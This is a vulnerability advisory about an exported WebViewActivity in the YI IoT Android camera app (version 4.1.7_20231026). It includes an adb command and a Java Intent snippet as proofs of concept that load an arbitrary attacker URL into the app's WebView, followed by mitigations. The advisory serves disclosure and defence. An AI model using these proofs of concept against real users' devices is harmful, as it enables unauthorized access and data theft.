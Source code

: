 

## Vulnerability Details

**Product:** YI IoT 'com.yunyi.smartcamera'  
**Version:** 4.1.7_20231026  
**Vendor:** Kami Vision  
**Component Affected:** `com.ants360.yicamera.activity.WebViewActivity`  

The activity `com.ants360.yicamera.activity.WebViewActivity` is marked as exported and accepts an implicit Intent, making it accessible from any third-party application. This can be exploited to load a malicious web page in the WebView, potentially leading to RCE (Remote Code Execution) or unauthorized actions.

```markdown
### Proof of Concept 1 - ADB Invocation

```bash
adb shell am start -n com.yunyi.smartcamera/com.ants360.yicamera.activity.WebViewActivity -e path "https://www.example.com/maliciousContent"
```

### Proof of Concept 2 - Third-party Android Java Code

```java
Intent intent = new Intent();
intent.setComponent(new ComponentName("com.yunyi.smartcamera", "com.ants360.yicamera.activity.WebViewActivity"));
intent.putExtra("path", "https://www.example.com/maliciousContent");
startActivity(intent);
```

This Java code snippet demonstrates how a malicious application can invoke the `WebViewActivity` without any permissions, thereby leveraging the vulnerability.

### Impact

The vulnerability does not require any permissions and can be exploited by any third-party application installed on the same device. It could lead to unauthorized access, data theft, or manipulation of user information.

### Recommended Mitigations

1. Set `android:exported` to `false` for `WebViewActivity` if it is not meant to be accessed externally.
2. Restrict the activity to respond only to explicit Intents from trusted sources.
3. Sanitize and validate all Intent data before use within the app.
4. Implement WebView security best practices, including the disabling of JavaScript if it is not essential.

### Steps to Reproduce

1. Install the YI IoT app (version 4.1.7_20231026).
2. Execute the adb command or the Java code provided above.
3. Observe the WebView loading content from the arbitrary, potentially malicious source.
```
